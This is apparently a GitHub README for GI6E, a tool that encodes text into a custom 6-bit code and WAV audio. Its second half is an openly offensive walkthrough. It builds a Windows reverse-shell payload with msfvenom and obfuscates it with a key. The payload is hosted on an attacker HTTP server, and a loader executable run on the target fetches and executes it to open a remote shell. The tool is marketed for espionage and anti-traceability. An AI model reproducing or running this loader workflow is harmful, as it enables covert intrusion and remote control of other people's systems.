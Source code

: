  

# GI6E

**"It seems capable of extracting sensitive information from specially crafted audio signals."**

HEX-GRID CODEX (abbreviated as HGC) is a custom 6-bit structured encoding system that utilizes a three-bit group identifier (Group Bits) plus a three-bit index identifier (Index Bits) to form 64 unique codes. Its core design philosophy maps letters and numbers onto a two-dimensional block matrix, enabling scalable, hierarchical, and machine-parsable character distribution. This makes it suitable for Morse code extensions, embedded communication protocols, cryptographic tagging, or compact representation of special character sequences.

---

https://youtu.be/Uzc14fmhI5I

### **V1.2 Update**

* \[+] Added AES-CTR encrypted transmission to significantly increase anti-traceability difficulty
* \[+] Modified decoding sensitivity
* \[+] Added client control interface
* \[+] Encryption/decryption parser added
* \[+] Malicious shellcode loader included

**"It might just be what espionage has been waiting for."**

![SPY](./pic/Main2.jpg)

---

# Installation

```bash
$ git clone https://github.com/MartinxMax/gi6e.git
$ cd gi6e
$ pip install -r require.txt
```

---

# Usage

```bash
$ python3 grid.py
```

![alt text](./pic/image.png)

---

## Text to WAV

Convert strings into GRID-encoded `.wav` audio files:

```bash
Please enter text to convert: TEST
[+] Grid file successfully generated: ./lib/history/generate/1752834436.wav
```

![alt text](./pic/image-1.png)
![alt text](./pic/image-2.png)

---

## WAV to Text

Input a `.wav` file and decode its content to plaintext:

```bash
Enter unencrypted WAV path: ./lib/history/generate/1752834436.wav
[Unencrypted] Decoded result => ('-.-.-- . --..-. .  . -.-.-. .  . -.-.-. .  . --..-. .  . --..-. .  . -...-. .  . --..-. .  . -.-.-. . ', 'TEST')
```

![alt text](./pic/image-3.png)

---

## One-click Test

Quickly verify system functionality:

![alt text](./pic/image-4.png)

---

## Real-time Listening

Play audio and decode the message in real-time:

![alt text](./pic/image-5.png)

---

## Text to Grid

Convert plaintext into GRID code:

```bash
Please enter text to convert: HELLO
[Unencrypted] Generated Grid code => '-.-.-- . -.-.-. . .--.-- . -.-.-. . --..-. . -.-.-. . .--..- . -.-.-. . .--..- . -.-.-. . --...- . '
```

![alt text](./pic/image-6.png)

---

## Grid to Text

Convert GRID code back to readable text:

```bash
Please enter Grid code (space separated): '-.-.-- . -.-.-. . .--.-- . -.-.-. . --..-. . -.-.-. . .--..- . -.-.-. . .--..- . -.-.-. . --...- . '
[Unencrypted] Decoded: HELLO
```

![alt text](./pic/image-7.png)

---

# Misuse: GRID-based SHELLCODE Loader

![alt text](./pic/image-10.png)

Generate shellcode (e.g., reverse shell payload):

```bash
(grid-loader)$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.8.102 LPORT=443 -f python | sed 's/\<buf\>/shellcode/g' > ./SHELLCODE/Main.conf
```

![alt text](./pic/image-8.png)

Convert shellcode into GRID code:

```bash
(grid-loader)$ python3 grid-gener.py
```

You can use the `-key` parameter for obfuscated encryption:

![alt text](./pic/image-9.png)

---

## Remote Loader

```bash
$ sudo python3 -m http.server 80
```

![alt text](./pic/image-11.png)

Upload `grid-loader.exe` to target system. Use `-key` parameter if encrypted:

```bash
> grid-loader.exe -load http://192.168.8.102/Main.grid
```

**Target:**

![alt text](./pic/image-15.png)

**Ubuntu Host:**

![alt text](./pic/image-14.png)

---

## Local Loader

```bash
> grid-loader.exe -load ./Main.grid
```

**Target:**

![alt text](./pic/image-16.png)

**Ubuntu Host:**

![alt text](./pic/image-17.png)

---

## GRID Encrypted Loader

```bash
(grid-loader)$ python3 grid-gener.py -key 12345678
```

![alt text](./pic/image-19.png)

```bash
> grid-loader.exe -load http://192.168.8.102/Main.grid -key 12345678
```

Or:

```bash
> grid-loader.exe -load ./Main.grid -key 12345678
```

![alt text](./pic/image-18.png)

 
